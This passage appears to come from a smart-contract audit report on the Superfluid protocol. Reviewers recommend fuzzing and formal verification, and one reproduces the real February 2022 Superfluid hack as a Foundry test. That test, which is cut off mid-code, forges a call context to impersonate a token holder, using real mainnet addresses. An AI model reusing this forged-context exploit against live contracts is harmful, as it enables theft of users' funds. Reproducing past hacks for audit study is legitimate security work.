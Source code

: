 If there are critical vulnerabilities still existing in Superfluid, I think it's unlikely they will be discovered via manual review. If Superfluid desires to further invest in the protocol's security, I recommend pursuing one of the following options:

1. Build a comprehensive fuzzing suite using Echidna/equivalent.
2. Pursue formal verification of key logic paths.

While Superfluid does have a few fuzzing invariants implemented using Foundry, as of time of writing, Foundry's fuzzing capability is very immature compared to Echidna. I recommend porting existing invariants to Echidna or contracting an auditor to implement a new invariant suite.

### blockdev

The scope to `Superfluid.sol` is not enough for an effective security review. This contract acts a central management piece which interacts with all the other actors in the system &mdash; SuperApp, SuperAgreement, Governance. To analyze complex risks, it's important to be aware of all these contracts.

A lot of responsibility is placed on these contracts, which, in turn, places a responsibility on Governance. Governance should review each new implementation contracts carefully keeping in mind possible attacks, before changing production so that it doesn't break any security.

### datapunk

Didn't find anything as useful due to the uniqueness and complexity of this project. For fun only, I reproduced the sequence of the actual hack that happened on 2/8/2022.

```
contract ContractTest is DSTest {
    Vm vm = Vm(address(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D));
    address constant exploiter_eoa = address(0x1574F7F4C9d3aCa2EbcE918e5d19d18aE853c090);
    address constant exploit_contract = address(0x32D47ba0aFfC9569298d4598f7Bf8348Ce8DA6D4); // -> 0x6177a480240d3248849f4b65e421e0b296522f21
    ISuperToken QI_proxy = ISuperToken(0xe1cA10e6a10c0F72B74dF6b7339912BaBfB1f8B5); // -> 0x6177a480240d3248849f4b65e421e0b296522f21
    address[] QI_holders = [0x5073c1535A1a238E7c7438c553F1a2BaAC366cEE, // 16818386482145059198434304
    0xe6116AA08e14afE08A9A563E9ef6cCd5b47070B7 // 2569487563094033900633960
    ];
    ISuperfluid sf_proxy = ISuperfluid(0x3E14dC1b13c488a8d5D310918780c983bD5982E7); //->0xebbe9a6688be25d058c9469ee4807e5ef192897f
    IInstantDistributionAgreementV1 IDA = IInstantDistributionAgreementV1(0xB0aABBA4B2783A72C52956CDEF62d438ecA2d7a1); // ->0x07711bb6dfbc99a1df1f2d7f57545a67519941e7

    function testExploit() public{
        vm.startPrank(exploit_contract);

        uint256 balance = QI_proxy.balanceOf(QI_holders[0]);
        emit log_named_uint("QI_Proxy:", balance);

        sf_proxy.callAgreement(
            ISuperAgreement(IDA),
            abi.encodeWithSelector(
                IInstantDistributionAgreementV1.updateSubscription.selector, // 0x232d2b58
                QI_proxy, // token
                98789, // indexId
                exploit_contract, // subscriber
                balance, // units
                abi.encode( // ctx
                    abi.encode(
                        0, // callInfo uint256
                        0, // timestamp
                        QI_holders[0], // msgSender
                        0, // agreementSelector
                        new bytes(0) // userData
                    ),
```